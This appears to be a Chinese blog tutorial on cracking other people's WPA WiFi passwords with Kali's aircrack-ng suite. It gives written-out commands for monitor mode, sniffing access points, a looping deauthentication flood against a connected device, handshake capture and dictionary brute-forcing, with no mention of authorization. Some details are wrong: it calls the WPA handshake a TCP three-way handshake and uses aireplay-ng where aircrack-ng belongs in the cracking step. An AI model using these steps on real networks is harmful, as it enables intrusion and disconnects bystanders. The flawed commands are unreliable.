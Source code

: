 ```yaml
---
layout: post
title: kali WiFi渗透
date: 2019-10-15 09:00:00 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: red.jpg # Add image post (optional)
tags: [kali, WiFi渗透] # add tag
---
```


#### 准备工作： kali系统、有无线网卡的电脑、一本强大的密码字典

#### 实现原理：进入kali系统，使用系统自带的Aircrack程序监听周围的热点，选择一个不错的WiFi热点然后对连接它的一台设备进行攻击，使其掉线，掉线后这台设备会自动重新连接，在连接的过程中设备会发送握手的数据包（当然也可以坐等设备连接当前WiFi热点，只要有设备在进行连接就会发送握手包），我们就可以利用伪装的挂载设备去窃取这个握手包，最后就可以用密码字典文件去暴力破解获得密码。

### 1.建立监听热点机制

首先使用ifconfig/iwconfig命令查看无线网卡是否加载成功，如图出现wlan0无线设备即加载成功。（eth0是本机的以太网卡配置参数，wlan0是你的无线网卡名称，lo是回环接口）    
![Alt text](/assets/img/ifconfig.png)

使用airmon-ng start命令将网卡设定为监听模式，此时无线网卡的名称将会变成wlan0mon
![Alt text](/assets/img/start.png)

### 2.监听WiFi热点

使用airodump-ng wlan0mon命令开始嗅探周围的WiFi热点，显示周围热点（ctrl+c 停止监听）
![Alt text](/assets/img/监听wifi信号.png)
> + BSSID: 无线AP（路由器）的MAC地址。
> + PWR: 这个值的大小反应信号的强弱，越大越好。很重要！！！
> + RXQ: 丢包率，越小越好，此值对PJ密码影响不大。
> + Beacons: 反应客户端和AP的数据交换情况，通常此值不断变化。
> + #Data: 这个值非常重要，直接影响到密码PJ的时间长短，如果有用户正在下载文件或看电影等大量数据传输的话，此值增长较快。 
> + CH: 工作频道。
> + MB: 连接速度。
> + ENC: 编码方式。通常有WEP、WPA、TKIP等方式。
> + ESSID: 无线AP广播的名称。

选取一个WiFi热点进行嗅探抓包（当有设备连入当前WiFi后就会抓取tcp握手包并存入保存路径内，坐等……）
```
airodump-ng -c 1 --bssid 48:0E:EC:7C:32:99 -w ~/a/ 网卡名
-c  指定频道号(ch)
--bssid  指定无线路由器的BSSID
-w  指定获取的包存储的路径
```
![Alt text](/assets/img/监听wifi握手包.png)

为了加速获取握手包可以选取一个连接当前WiFi的设备进行攻击，使用aireplay给其发送断开包，设备断开后就会进行自动重连
```
aireplay-ng -0 0 -c AC:88:FD:14:31:5B -a 48:0E:EC:7C:32:99 网卡名
-0  表示发起攻击（deauthentication洪水攻击），后面指定攻击次数，设置0则为循环攻击，不停的攻击客户端将无法正常上网（ctrl+c停止）
-c  指定强制断开的设备的mac地址
-a  指定无线路由器的BSSID
攻击原理：先让设备掉线，设备会再自动连接，并发这个自动连接过程会进行三次握手，会发送tcp包（里面包含加密的密码数据），此时我方伪装成WiFi热点去窃取该数据包。我方窃取后即可用字典穷举法暴力破解加密的WiFi密码
```
![Alt text](/assets/img/攻击.png)

这时我们只需等待右上角出现WPA handshake字样，后面跟着BSSID，即为抓到了该无线网的握手包，我们可以使用CTRL+C来停止嗅探握手包。
![Alt text](/assets/img/获得握手包.png)

获取到了握手包我们就可以在之前设置的保存路径中看到，其中.cp文件就是我们需要破解的密码
![Alt text](/assets/img/握手包.png)

### 3、使用字典暴力破解

这一步是整个密码破解的关键，能否成功，取决与你的CPU是否强大，还有你字典的大小，以及字典的质量，密码的复杂程度。
```
aireplay-ng -a2 -b 48:0E:EC:7C:32:99 -w ~/1.txt ~/a/-01.cp
-a2  代表WPA的握手包
-b  指定要破解的WiFi BSSID
-w  指定字典文件
最后是抓取的包
```
![Alt text](/assets/img/暴力破解.png)

最后记得airmon-ng stop关闭你的无线网卡哦
![Alt text](/assets/img/关闭.png)
